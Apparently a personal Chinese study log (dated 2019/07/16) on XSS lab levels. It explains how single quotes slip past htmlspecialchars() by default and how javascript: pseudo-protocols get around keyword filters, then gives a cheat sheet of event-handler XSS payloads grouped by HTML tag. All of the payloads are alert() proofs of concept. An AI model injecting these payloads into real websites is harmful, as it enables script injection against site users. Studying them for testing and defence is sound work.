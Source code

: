 # Day 9 

## 2019/07/16

### XSS 

#### 第三关的htmlspecialchars() 绕过

这个函数的用法参见
```
http://www.w3school.com.cn/php/func_string_htmlspecialchars.asp
```

**示例：**

```php
<?php 
	$name = $_GET["name"];
	$name = htmlspecialchars($name);
?>
 
<input type='text' value='<?php echo $name?>'>
```
注意一下这个函数的几个重要参数

ENT_COMPAT - `默认。`仅编码双引号。

ENT_QUOTES - 编码双引号和单引号。

ENT_NOQUOTES - 不编码任何引号。

默认是只编码双引号的！默认只编码双引号！默认只编码双引号……

payload:`keyword=111'onmouseover='javascript:alert(1)`

因为默认参数只让双引号转义而不让单引号转义，所以可以构造闭合

#### 第五关使用构造伪协议

源码里面看到

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
```

传统方法构造的payload里面的字符串会被替换掉

所以可以用下面的构造出伪协议


`"><iframe src=javascript:alert(1)>`

`"> <a href="javascript:alert(1)">click</a>`

`"> <a href="javascript:%61lert(1)">click</a> //`

![img1](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/0716_1.png)



























#### 各种标签的用法

##### **\<scirpt\>**

`<scirpt>alert("xss");</script>`

##### **\<img\>**

`<img src=1 onerror=alert("xss");>`
##### **\<input\>**

`<input onfocus="alert('xss');">`

竞争焦点，从而触发onblur事件

`<input onblur=alert("xss") autofocus><input autofocus>`

通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发

`<input onfocus="alert('xss');" autofocus>`

##### **\<details\>**

`<details ontoggle="alert('xss');">`

使用open属性触发ontoggle事件，无需用户去触发

`<details open ontoggle="alert('xss');">`

##### **\<svg\>**

`<svg onload=alert("xss");>`

##### **\<select\>**

`<select onfocus=alert(1)></select>`

通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发

`<select onfocus=alert(1) autofocus>`

##### **\<iframe\>**

`<iframe onload=alert("xss");></iframe>`

##### **\<video\>**

`<video><source onerror="alert(1)">`

##### **\<audio\>**

`<audio src=x  onerror=alert("xss");>`

##### **\<body\>**

`<body/onload=alert("xss");>`

利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

`<body
onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>`

##### **\<textarea\>**

`<textarea onfocus=alert("xss"); autofocus>`

##### **\<keygen\>**

`<keygen autofocus onfocus=alert(1)> //仅限火狐`

##### **\<marquee\>**

`<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以`

##### **\<isindex\>**

`<isindex type=image src=1 onerror=alert("xss")>//仅限于IE`


#### js伪协议

##### **\<a\>标签**

`<a href="javascript:alert(`xss`);">xss</a>`

##### \<iframe\>标签

`<iframe src=javascript:alert('xss');></iframe>`

##### **\<img\>标签**

`<img src=javascript:alert('xss')>//IE7以下`

##### **\<form\>标签**

`<form action="Javascript:alert(1)"><input type=submit>`

### copied from:
```
https://xz.aliyun.com/t/4067
```